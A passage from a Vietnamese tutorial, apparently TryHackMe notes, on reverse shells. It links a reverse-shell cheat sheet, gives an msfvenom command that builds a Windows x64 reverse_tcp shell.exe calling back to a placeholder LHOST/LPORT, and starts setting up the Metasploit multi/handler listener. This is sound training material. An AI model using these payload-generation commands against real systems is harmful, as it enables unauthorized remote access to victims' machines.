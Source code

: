 Đối với các payloads reverse shell phổ biến khác, bạn có thể tham khảo "[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)", một kho lưu trữ chứa nhiều shell codes (thường ở dạng lệnh một dòng để sao chép và dán), bằng nhiều ngôn ngữ khác nhau. Đáng để bạn đọc qua trang được liên kết để xem những gì có sẵn.

---

---

---

# Msfvenom

Msfvenom là một phần của framework Metasploit, được sử dụng để tạo mã cho các loại payload, chủ yếu là reverse shell và bind shell.

Cú pháp tiêu chuẩn cho msfvenom như sau:

```jsx
msfvenom -p <PAYLOAD> <OPTIONS>
```

Ví dụ: để tạo một Reverse Shell Windows x64 ở định dạng exe, chúng ta có thể sử dụng:

```jsx
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

Ở đây chúng ta đang sử dụng một payload và bốn tùy chọn:

- `f <format>`: Chỉ định định dạng đầu ra. Trong trường hợp này là một tệp thực thi (exe)
- `o <file>`: Vị trí và tên tệp đầu ra cho payload được tạo.
- `LHOST=<IP>`: Chỉ định địa chỉ IP để kết nối ngược lại. Khi sử dụng TryHackMe, đây sẽ là địa chỉ IP `tun0` của bạn. Nếu bạn không thể tải liên kết thì bạn chưa kết nối với VPN.
- `LPORT=<port>`: Cổng trên máy cục bộ để kết nối ngược lại. Đây có thể là bất kỳ số nào từ 0 đến 65535 chưa được sử dụng; tuy nhiên, các cổng dưới 1024 bị hạn chế và yêu cầu một trình lắng nghe chạy với quyền root.

---

---

---

# Metasploit multi/handler

**1. Mở Metasploit Console:**

- Mở terminal và gõ lệnh `msfconsole` để khởi động Metasploit Framework.

**2. Chọn mô-đun multi/handler:**

- Trong Metasploit console, gõ lệnh `use exploit/multi/handler` và nhấn Enter. Điều này sẽ tải mô-đun multi/handler để bạn có thể bắt đầu cấu hình nó.
